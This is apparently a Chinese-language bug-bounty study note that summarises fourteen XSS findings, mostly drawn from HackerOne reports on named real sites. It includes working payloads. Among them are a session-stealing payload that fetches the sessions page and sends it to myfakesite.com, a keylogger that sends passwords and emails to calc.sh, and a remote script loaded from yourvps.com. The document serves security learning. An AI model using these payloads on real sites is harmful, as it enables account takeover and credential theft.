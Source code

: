 # 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

# 2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

# 3.二维码xss
二维码执行js

# 4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

# 5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png|700]]
e.data有exec的话就用eval执行代码，这里检查origin，但是不严格
```
可以构造https://hq.upserve.com.mydomain.com/xss.html
页面里window.opener.postMessage({exec:'alert("xss")'},"https://inventory.upserve.com/login/);
向目标网站发送一个包含代码执行的消息
```
推荐插件:postmessage tracker
自动化工具：semgrep
或者自己在开发者工具搜
![[Pasted image 20241017233752.png]]

# 6.没有绕过csp的2000刀xss
https://hackerone.com/reports/1804177
这里hunter的提交最初被关闭为selfxss。但是通过与审核沟通，这是一个能攻击管理员的存储xss
在应用程序发现能够创建链接，并且被群组的人看到，于是
使用此`javascript://%0aalert(1)`作为链接创建Custom Link（存在xss的功能）
浏览器报错说csp阻止了，说明此处可能存在xss，于是报告漏洞

思考：学会和审核沟通

# 7.登陆错误的xss
正常情况target.com/login?error=xxx
攻击情况
```
target.com/login?error=<img src=1 onerror=alert()>
```

# 8.个人信息中心处xss
某个字段可以编辑进行存储xss
https://hackerone.com/reports/1921606

# 9.分析上下文构造payload的搜索xss
search?brook
![[Pasted image 20241020112514.png]]
payload：
```
"，inertnalSearchTerm:[7].map(alert),num0fSearchResultsReturned:"b
//输入时候要url编码符号，这里iner这个没有特殊含义
```
这里[].map()算是一个简单绕过思路吧
弹窗
![[Pasted image 20241020112736.png]]

# 10.xss账户接管
这里无法通过cookie窃取会话，但是发现https://www.sidefx.com/account/sessions/页面包含会话信息
测试危害：向其他账号发送https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt，受害者打开后发现会弹窗

接管账户的有效负载：
```
https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxxx&quotonerror=&quotfetch&#40&#39https&#58&#47&#47www.sidefx.com/account/sessions&#39&#41.then&#40response=&gt&#123response.text&#40&#41.then&#40ddd=&gt&#123let&#32el=document.createElement&#40&#39img&#39&#41&#59el.src=&#39http&#58&#47&#47myfakesite.com?q=&#39&#43btoa&#40encodeURIComponent&#40ddd&#41&#41&#59document.body.appendChild&#40el&#41&#125&#41&#125&#41&quot&gt
```
实际上就是
![[Pasted image 20241020133317.png]]
将页面内容（含有session）发给攻击者hhh
由于网站存在论坛，可以在论坛发送payload进行危害发散

思考：账号接管怎么做，如何造成危害（这里通过论坛去扩散危害），cookie被限制时候找找页面有没有存在会话信息的地方

# 11.服务器错误处理cookie导致xss
https://wx.zsxq.com/columns/48884815425228

标题是：通过观察响应值以及**cookie走私**来实现的xss
本来cookie中的字段以分号相隔为不同的cookie字段，但是这里服务器把空格也当成了分隔符，当攻击者用空格进行构造cookie的时候，服务器没有进行安全处理直接将cookie字段反射到页面造成xss
后续还有账号接管操作还没分析
键盘记录器payload
```

setTimeout(function () {
    {
    var a = document.getElementsByName('password')[0];
    var b = document.getElementsByName('email')[0];
    
    function f() {
        fetch(`https://calc.sh/?a=${encodeURIComponent(a.value)}&b=${encodeURIComponent(b.value)}`);
    }
    a.form.onclick = f;
    a.onchange = f;
    b.onchange = f;
    a.oninput = f;
    b.oninput = f;
}, 1000);
```
思考：新的漏洞点，关注cookie等可能的header头也会有xss反射点



# 12.路径重定向的xss
https://hackerone.com/reports/260744



```
https://dev.twitter.com/https:/%5cblackfan.ru/
后面https那个路径会进行重定向到https:/%5cblackfan.ru/
```

https://dev.twitter.com//x:1/:///%01javascript:alert(document.cookie)/
以下是http响应
```
HTTP/1.1 302 Found
connection: close
...
location: //x:1/://dev.twitter.com/javascript:alert(document.cookie)
...


<p>You should be redirected automatically to target URL: <a href="javascript:alert(document.cookie)">javascript:alert(document.cookie)</a>.  If not click the link.
```
思考：提示重定向的页面也可以造成xss

# 13.jquery，存储型盲xss
访问 https://your-store.myshopify.com/admin/settings/account。
添加一个新的员工账号。
在填写名字和姓氏字段时，输入以下payload（恶意代码）：
```
<script>$.getScript("https://yourvps.com/xss.js")</script>
```

# 14，通过文件上传进行xss
![[Pasted image 20241023223521.png]]
